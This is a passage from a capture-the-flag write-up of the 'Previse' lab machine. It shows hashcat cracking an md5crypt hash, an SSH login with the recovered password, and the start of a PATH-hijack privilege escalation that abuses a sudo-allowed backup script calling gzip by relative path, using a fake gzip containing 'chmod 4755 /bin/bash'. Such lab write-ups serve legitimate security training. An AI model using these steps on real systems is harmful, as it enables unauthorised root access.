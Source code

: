 ```shell
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```
As we can see we cracked the hash and obtained a password.  
Once we have the password we can try to login via ssh:  
```shell
[root@kali Previse ]$ ssh -l m4lwhere $TARGET 
m4lwhere@10.10.11.104's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  7 19:58:19 UTC 2022

  System load:  0.08              Processes:           179
  Usage of /:   50.6% of 4.85GB   Users logged in:     0
  Memory usage: 28%               IP address for eth0: 10.10.11.104
  Swap usage:   0%


0 updates can be applied immediately.


Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
```
## Root
Once we log in, we can check sudo capabilities for user `m4lwhere`, when sudo prompts the password we are able to provide a valid passphrase since we have the user's password.  
```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```
If we inspect the script, we can notice that the script is using relative paths and that sudo is noth defining any secure_path directive:  
```bash
m4lwhere@previse:/opt/scripts$ cat access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
Now we can create a `gzip` file containing `chmod 4755 /bin/bash` and export `$PATH` with this new value:  
```bash
m4lwhere@previse:~$ vi gzip
```